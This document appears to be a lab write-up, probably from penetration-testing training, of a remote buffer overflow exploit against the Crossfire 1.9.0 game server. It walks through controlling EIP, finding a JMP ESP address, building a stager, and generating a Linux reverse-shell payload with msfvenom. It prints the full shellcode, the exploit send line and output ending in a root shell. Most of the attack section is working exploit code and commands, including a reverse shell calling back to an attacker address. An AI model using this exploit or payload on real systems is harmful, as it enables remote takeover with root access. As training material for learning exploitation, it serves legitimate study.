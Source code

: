 # Crossfire 1.9.0
Reference: https://www.exploit-db.com/exploits/1582  
  
Crossfire 1.9.0 is vulnerable to a remote buffer overflow when providing 4000+ characters as a parameter to the "setup sound" command. To exploit this I used Evans Debugger (EDB).
  
## Exploitation

### 1. Control EIP
EIP crash position is dependant on the length of the provided input. The provided input length should remain at 4379.
Ensuring this, EIP is overwritten at position 4368.

### 2. Find instruction
In EDB, a JMP ESP instruction can be found at using the plugin "OpCodeSearcher". An instruction is found at `0x08134596`.

### 3. Create stager
Due to the ESP position at the time of the crash, only 7 bytes are left for any payload at the ESP position. This limitation means the shellcode must be placed elsewhere in the buffer and jumped to.  
- At the time of the crash, EAX points to the start of the input buffer.  
- Therefore, use the remaining space to increment EAX to a safe location in the offset characters and then jump into it.  
Instructions are as follows:
```bash
┌──(kali㉿kali)-[192.168.119.141]-[~/…/pwk/scripts/bof/linux]
└─$ msf-nasm_shell                                                                                                      
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
```

Exploit is now structured as [setup sound][OFFSET (EAX)][JMP ESP][ADD EAX, 12][JMP EAX]  

### 3. Find bad characters
Bad characters discovered: `00` and `20`.

### 4. Generate shellcode
```bash
┌──(kali㉿kali)-[192.168.119.141]-[~/…/pwk/scripts/bof/linux]
└─$ msfvenom --arch x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=192.168.119.141 LPORT=80 -b '\x00\x20' -f python                                                                                             2 ⨯
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of python file: 479 bytes
buf =  b""
buf += b"\xd9\xcd\xb8\x0c\xba\xf6\x28\xd9\x74\x24\xf4\x5b\x29"
buf += b"\xc9\xb1\x12\x31\x43\x17\x03\x43\x17\x83\xe7\x46\x14"
buf += b"\xdd\xc6\x6d\x2e\xfd\x7b\xd1\x82\x68\x79\x5c\xc5\xdd"
buf += b"\x1b\x93\x86\x8d\xba\x9b\xb8\x7c\xbc\x95\xbf\x87\xd4"
buf += b"\xe5\xe8\x0f\xa9\x8e\xea\xef\xb1\x1e\x62\x0e\x01\xf8"
buf += b"\x24\x80\x32\xb6\xc6\xab\x55\x75\x48\xf9\xfd\xe8\x66"
buf += b"\x8d\x95\x9c\x57\x5e\x07\x34\x21\x43\x95\x95\xb8\x65"
buf += b"\xa9\x11\x76\xe5"
```
To this payload, add a 32 byte NOPsled.
```python
io.sendline('\x11(setup sound ' + buf + 'A' * (4368-len(buf)) + eip + addeax + jmpeax + '\x90' * 2 + '\x90\x00#')
```

### 5. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[192.168.119.141]-[~/…/pwk/scripts/bof/linux]
└─$ ./exploit.py
[+] Opening connection to 192.168.141.44 on port 13327: Done
[*] \x00
[*] Closed connection to 192.168.141.44 port 13327
```
Get a shell.
```shell
whoami
root
```
